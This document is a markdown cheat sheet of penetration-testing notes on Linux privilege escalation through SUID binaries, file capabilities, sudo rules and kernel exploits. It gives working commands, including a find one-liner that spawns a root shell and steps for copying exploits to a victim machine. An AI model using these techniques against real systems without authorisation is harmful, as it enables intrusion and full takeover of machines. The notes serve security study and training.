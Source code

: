 

### Abusing Setuid and Capabilities

##### SUID

`ps u -C <binary running>` - we can get the PID of a running process for inspection purposes to show how uids work

`grep Uid /proc/<PID>/status` - inspect the real id, UID and eUID (0 = root)

`ls -asl` list the permissions - look for the S/s

`chmod u+s <filename>` - set the suid bit on the file

`find / -perm -u=s -type f 2>/dev/null` - search for all files in the system with suid or guid set with the goal of executing a command or script as root.

`If we find a file that has the suid bit set, and for some reason it is misconfigured we could use this binary to execute privileges`

for example if `find` was misconfigured we could:

`find /home/user/Desktop -exec "/usr/bin/bash" -p \;` - which will run find and give us an elevated shell because the suid bit is set, effectively making us root through the eUID.

##### Capabilities

Capabilities are extra attributes that can be applied to processes, binaries and services to assign specific privileges. These privileges are usually used for admin operations.

If these binaries are misconfigured they could also lead to privesc to root.

`/usr/sbin/getcap -r / 2>/dev/null` - enumerate the system for binaries with capabilities

example output:

```
/usr/bin/perl = cap_setuid+ep  -> has setuid capabilities and +ep set (effective and permitted)
/usr/bin/perl5.28.1 = cap_setuid+ep  -> same here
```

`When we find a binary with capabilties like this we should check GTFObins for a way to exploit it`

### Abusing Sudo


Custom configuration to sudo is added to the /etc/sudoers file. We can use `sudo -l`  to list these.

Sudo essentially changes the eUID of the user executing the command.

If we find a sudo capability when inspecting the sudoers file we should research it on GTFObins for an easy escalation method - though this may not always work, don't die here.

`cat /var/log/syslog  | grep <binary we tried to exploit>` If we are denied in the process we can investigate the syslog file, we may notice that it was an auditing daemon that prevented us.

If we have root access at some point we may be able to view how this command was protected.


### Exploiting Kernel Vulnerabilities

First we need to run some enumeration to get relative information

`cat /etc/issue && cat /etc/os-release && uname -r && arch` - get system information

`searchsploit <information obtained>` - use grep as well to filter out some clutter if needed

grab a suitable exploit, inspect it, and execute if valid. `for exploits that need to be compiled if possible compile the code on the target so compilation and exploitation can run as smooth as possible`.

`scp <file_name> user@ip:` - transfer the file using scp to the victim 

`file <binary>` - double check compilation ELF info for correct arch, etc.

When it comes to Linux privesc check out the following site, its pretty good with various commands you can try out when you have to do local enum on a system https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/ and if you come across a system when something isnt installed to compile exploits then you can also try compiling on kali and transferring across to target.